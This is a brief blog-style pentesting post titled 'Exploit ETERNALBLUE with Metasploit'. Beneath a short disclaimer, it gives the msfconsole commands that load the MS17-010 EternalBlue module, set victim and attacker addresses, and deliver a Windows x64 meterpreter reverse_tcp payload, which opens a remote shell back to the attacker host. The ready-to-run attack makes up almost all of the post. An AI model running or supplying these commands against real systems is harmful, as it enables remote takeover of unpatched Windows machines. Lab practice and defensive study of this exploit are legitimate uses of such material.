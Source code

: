 ```yaml
---
layout: post
title: "Exploit ETERNALBLUE with Metasploit"
tags: [metasploit,eternalblue,smb,pentesting,windows]
---
```


> **Disclaimer**: Only use this in your own environment.
> Using this exploit against other people's systems is *illegal*!

Run `msfconsole`:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set rhost <$VICTIM_IP>
set lhost <$ATTACKER_IP>
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

---
